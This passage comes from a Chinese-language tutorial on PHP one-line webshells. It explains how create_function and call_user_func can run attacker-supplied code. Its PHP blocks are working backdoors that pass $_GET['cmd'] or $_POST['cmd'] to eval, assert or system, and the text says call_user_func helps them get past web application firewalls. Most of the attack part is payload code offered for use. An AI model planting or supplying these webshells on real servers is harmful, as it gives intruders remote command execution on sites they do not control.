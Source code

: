 把用户传递的数据生成一个函数 tmp()，然后再执行 tmp()：

![image-20200910203732113](/images/webshell/image-20200910203732113.png)

##### call_user_func

`call_user_func` 这个函数可以调用其它函数，被调用的函数是 `call_user_func` 的第一个函数，被调用的函数的参数是 `call_user_func` 的第二个参数。这样的一个语句也可以完成一句话木马。一些被 waf 拦截的木马可以配合这个函数绕过 waf。

```php+HTML
<?php
//eval(system('date'));
//$tmp='system("'.$_GET[cmd].'");';
//eval($tmp);
//@eval($_POST[cmd]);
//assert(system("date"));
//assert($_GET['cmd']);
//$tmp = create_function('',system('date'));
//$tmp();

//$tmp = create_function('',$_POST['cmd']);
//$tmp();

call_user_func(system("date"));

?>
```

![image-20200910205446756](/images/webshell/image-20200910205446756.png)

其实所有的一句话木马都由两部分组成：

1. 接收攻击者输入
2. 命令执行函数

在`PHP Version 7.3.4`，webshell 是无法回显的.

```php+HTML
<?php
//eval(system('date'));
//$tmp='system("'.$_GET[cmd].'");';
//eval($tmp);
//@eval($_POST[cmd]);
//assert(system("date"));
//assert($_GET['cmd']);
//$tmp = create_function('',system('date'));
//$tmp();

//$tmp = create_function('',$_POST['cmd']);
//$tmp();

//call_user_func(system("date"));
call_user_func(assert,$_POST['cmd']);
//@call_user_func(assert,phpinfo());

?>
```
